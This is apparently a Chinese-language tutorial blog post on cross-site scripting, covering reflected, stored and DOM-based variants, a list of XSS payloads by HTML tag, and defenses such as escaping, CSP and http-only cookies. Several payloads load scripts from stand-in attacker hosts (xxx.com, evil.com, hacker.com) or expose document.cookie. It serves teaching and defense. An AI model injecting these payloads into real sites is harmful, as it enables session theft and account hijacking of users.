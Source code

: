 ```yaml
---
title: XSS(跨站脚本)漏洞及解决
date: 2021-03-11 21:12:40
category: javascript
---
```


xss是什么
----
xss跨站脚本攻击(Cross Site Scripting)，是一种经常出现在web应用中的计算机安全漏洞，它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入的恶意html代码会被执行，从而达到恶意用户的特殊目的。
![](https://upload-images.jianshu.io/upload_images/10024246-d5e55ef5a0ced4ac.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

**本质：**浏览器把输入数据插`入页面`中，当成`脚本执行`;
**XSS分为：**
- 存储型 
      存储区域在后端数据库，插入点在HTML
- 反射型 
 存储区域在URL，插入点在HTML
- DOM型XSS
存储区域在数据库、前端存储、URL都可能发生；插入点在javascript
## 反射型XSS
- 1、攻击者构造出特殊的 URL，其中包含恶意代码。 
- 2、攻击者诱使用户点击链接，恶意代码被拼接到 HTML 中返回给浏览
器。 
- 3、浏览器解析执行。
- 4、恶意代码窃取用户数据并发送到攻击者的网站。攻击者冒充用户的行 为，调用目标网站接口执行攻击者指定的操作。

>常⻅于用户登陆、数据搜索等位置

## 存储型XSS
- 1、攻击者构造恶意代码，并提交保存到数据库。 
- 2、用户打开应用，从数据库读取恶意代码，拼接到 HTML 中返回给浏览
器。
- 3、浏览器解析执行。
- 4、恶意代码窃取用户数据并发送到攻击者的网站。攻击者冒充用户的行 为，调用目标网站接口执行攻击者指定的操作。
>常⻅于如论坛发帖、商品评论、用户信息修改等
 
 ## DOM型XSS
- 1、攻击者构造出特殊的 URL，其中包含恶意代码。
- 2、攻击者诱使用户点击链接。 
- 3、浏览器解析执行，前端取出 URL 中的恶意代码并执行。
- 4、恶意代码窃取用户数据并发送到攻击者的网站。攻击者冒充用户的行 为，调>用目标网站接口执行攻击者指定的操作。
## XSS的攻击载荷
- <script>标签：<script>标签是最直接的XSS有效载荷，脚本标记可以引用外部的JavaScript代码，也可以将代码插入脚本标记中
```
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
<script> alert("hack")</script>   #弹出hack
<script>alert(document.cookie)</script> #弹出cookie
```
<img>标签：
```
<img  src=1  onerror=alert("hack")>
<img  src=1  onerror=alert(/hack/)>
<img  src=1  onerror=alert(document.cookie)>  #弹出cookie
<img  src=1  onerror=alert(123)>      注：对于数字，可以不用引号
<img  src="javascript:alert("XSS");">
<img  dynsrc="javascript:alert('XSS')">
<img  lowsrc="javascript:alert('XSS')">
```
- <body>标签：可以使用onload属性或其他更加模糊的属性（如属性）在标记内部传递XSS有效内容background
```
<body onload=alert("XSS")>
<body background="javascript:alert("XSS")">
```
- <iframe>标签：该<iframe>标签允许另一个HTML网页的嵌入到父页面。
`IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段`
```
<iframe src=”http://evil.com/xss.html”>
```
- <input>标签：在某些浏览器中，如果标记的type属性<input>设置为image，则可以对其进行操作以嵌入脚本
```
<input type="image" src="javascript:alert('XSS');">
```
- <link>标签：<link>标签，这是经常被用来连接外部的样式表可以包含的脚本
```
<link rel="stylesheet" href="javascript:alert('XSS');">
```
- <table>标签：可以利用和标签的background属性来引用脚本而不是图像
```
<table background="javascript:alert('XSS')">
 
<td background="javascript:alert('XSS')">
```
- <div>标签：该<div>标签，类似于<table>和<td>标签也可以指定一个背景，因此嵌入的脚本。
```
<div style="background-image: url(javascript:alert('XSS'))">
 
<div style="width: expression(alert('XSS'));">
```
- <object>标签：该<object>标签可用于从外部站点脚本包含
```
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

## 防御
- 利用模板引擎 
模板引擎一般自带转义，需尽量保持最新，避免低版本漏洞
- 避免内联事件
 尽量不要用onLoad=“onload(‘{{data}}’)”
onClick=“go(‘{{action}}’)” 这种写法
- 避免拼接 HTML
使用成熟的渲染框架，并保持新版本+后端过滤，如vue，angular等 
使用成熟的过滤器，并保持新版本，如ESAPI，Dompurify等
- 增加攻击难度，降低攻击后果 
严格白名单、规范的CSP、限制⻓度、http-only等
